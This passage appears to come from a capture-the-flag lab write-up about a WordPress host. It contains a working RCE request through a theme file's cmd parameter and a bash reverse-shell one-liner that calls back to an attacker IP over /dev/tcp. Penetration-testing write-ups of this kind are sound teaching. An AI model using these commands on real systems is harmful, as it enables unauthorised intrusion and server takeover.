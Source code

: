 I tried the RCE:
 
```
❯ ❯ curl -s 'http://norc.labs/wp-content/themes/twentytwentytwo/index.php?cmd=id'                                                                                                      ─╯
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![1](attachment/992cb5ccc2c49dfdcec11d05bda5e71c.png)

Now, with remote command execution capabilities, we can deploy a reverse shell to gain access to the server.

```
bash -c 'bash -i &>/dev/tcp/192.168.1.105/1234 <&1'
```

![1](attachment/14ed20188cb422542d37614bdef2a9ce.png)

Upon reviewing the home directory for additional users, there is a user named 'kvzlx'. Initially, this directory appears empty; however, upon executing the command 'ls -la', a hidden script is revealed:

![1](attachment/0c511fa6fcf047ad3ef17aa12553bcbe.png)
